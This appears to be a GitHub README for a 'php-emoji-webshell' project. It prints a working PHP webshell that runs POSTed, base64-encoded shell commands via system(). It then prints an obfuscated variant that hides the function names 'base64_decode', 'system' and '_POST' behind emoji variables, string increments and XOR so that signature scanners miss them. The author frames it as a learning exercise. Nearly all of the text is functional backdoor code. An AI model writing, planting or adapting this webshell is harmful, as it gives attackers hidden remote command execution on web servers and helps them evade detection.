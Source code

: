 # php-emoji-webshell

🥸 Nothing new about this webshell, just use same techniques like XOR and self increment operations.

Basically this code
```php
<?php

$a = $_POST[4] ? base64_decode($_POST[4]) : 'whoami';
@system($a);

```
Turn into emoji, self increment and XOR operations.

```php
<?php

$_=[];
$_=@"$_";
$__=("_"=="_")+("_"=="_");
$_=@$_[++$__];

$🌏=$_++;
$🤮=$_++;
$🍪=$_++;
$🫣=$_++;
$🧁=$_++;
$🎂=$_++;
$🥃=$_++;
$🍔=$_++;
$🌘=$_++;
$🌗=$_++;
$🌖=$_++;
$🌕=$_++;
$🌒=$_++;
$🌓=$_++;
$🌔=$_++;
$🌰=$_++;
$🍘=$_++;
$🥗=$_++;
$🥥=$_++;
$🍑=$_++;
$🍋=$_++;
$🧇=$_++;
$🌮=$_++;
$🍕=$_++;
$🥯=$_++;
$🍣=$_;

$__++;
$__++;
$__++;
$👿=$🤮.$🌏.$🥥.$🧁.$__;
$__--;
$__--;
$👿.=$__.("#"^"|").$🫣.$🧁.$🍪.$🌔.$🫣.$🧁;

$💀=$🥥.$🥯.$🥥.$🍑.$🧁.$🌒;
$🥳=("#"^"|").($🥥^"#").($🌕^"#").($🌰^"#").($🌮^"#"); 
$🤯=@${$🥳}[$__] ? $👿(@${$🥳}[$__]) : $🌮.$🍔.$🌔.$🌏.$🌒.$🌘;
@$💀($🤯);

```

Im just building this for fun and for the sake of learning new things. ☕️🥯
